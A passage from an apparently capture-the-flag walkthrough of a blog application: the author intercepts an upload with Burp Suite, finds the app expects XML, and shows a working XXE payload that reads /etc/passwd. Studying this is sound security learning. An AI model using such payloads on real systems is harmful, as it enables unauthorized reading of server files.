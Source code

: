 But it thrown me the above error. I tried to upload the file again, but this time I intercepted the request using burpsuite.

![Untitled 15.png](NodeBlog/assets/Untitled%2015.png)

From the above output, we can see that the application is expecting an XML file, with the following format:

```
<post>
	<title>Example Post</title>
	<description>Example Description</description>
	<markdown>Example Markdown</markdown>
</post>
```

So, I used the XML external entity (XXE) injection technique to view the contents of the file from the application file system.

> [!important]  
> To Learn more about XML external entity (XXE), Check out the following link: https://portswigger.net/web-security/xxe  

First I tried to view the contents of the `/etc/passwd` file. I uploaded the following code to the server:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<post>
	<title>xml payload to extract the contents of /etc/passwd file</title>
	<description>&xxe;</description>
	<markdown>Example Markdown</markdown>
</post>
```
